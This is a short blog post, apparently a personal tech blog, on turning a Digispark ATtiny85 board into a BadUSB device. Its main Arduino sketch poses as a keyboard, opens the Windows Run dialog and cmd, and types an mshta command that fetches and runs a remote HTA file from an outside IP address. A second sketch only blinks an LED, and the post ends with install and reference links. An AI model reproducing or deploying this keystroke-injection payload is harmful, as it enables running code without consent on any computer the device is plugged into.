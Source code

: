 ```yaml
---
author: XhstormR
categories:
- MCU
- BadUSB
date: 2019-11-16T16:15:32+08:00
title: Digispark BadUSB
---
```


<!--more-->

Updated on 2019-11-16

> {{< image "uploads/attiny85.png" "Attiny85" "1" "1">}}
>
> 基于 Attiny85 单片机

## Code
```c
#include "DigiKeyboard.h"

#define KEY_CAPSLOCK 57

void setup() {
    DigiKeyboard.delay(1000);
    DigiKeyboard.sendKeyStroke(0);
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
    DigiKeyboard.delay(500);
    DigiKeyboard.println("cmd");
    DigiKeyboard.delay(500);
    DigiKeyboard.println("mshta http://1.1.1.1/main.hta & exit");
}

void loop() {
}
```

```c
void setup() {
    pinMode(1, OUTPUT);
}

void loop() {
    digitalWrite(1, HIGH);
    delay(1000);
    digitalWrite(1, LOW);
    delay(1000);
}
```

## Install
* https://github.com/arduino/Arduino
* https://github.com/digistump/arduino-boards-index
* https://github.com/digistump/DigistumpArduino/releases/latest

## Reference
* https://github.com/toxydose/Duckyspark
* [Digispark Example](https://github.com/digistump/DigistumpArduino/tree/master/digistump-avr/libraries/Digispark_Examples)
* [DigiMouse.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkMouse/DigiMouse.h)
* [DigiKeyboard.h](https://github.com/digistump/DigistumpArduino/blob/master/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h)
* [HID Usage Tables](https://source.android.google.cn/devices/input/keyboard-devices#hid-keyboard-and-keypad-page-0x07)
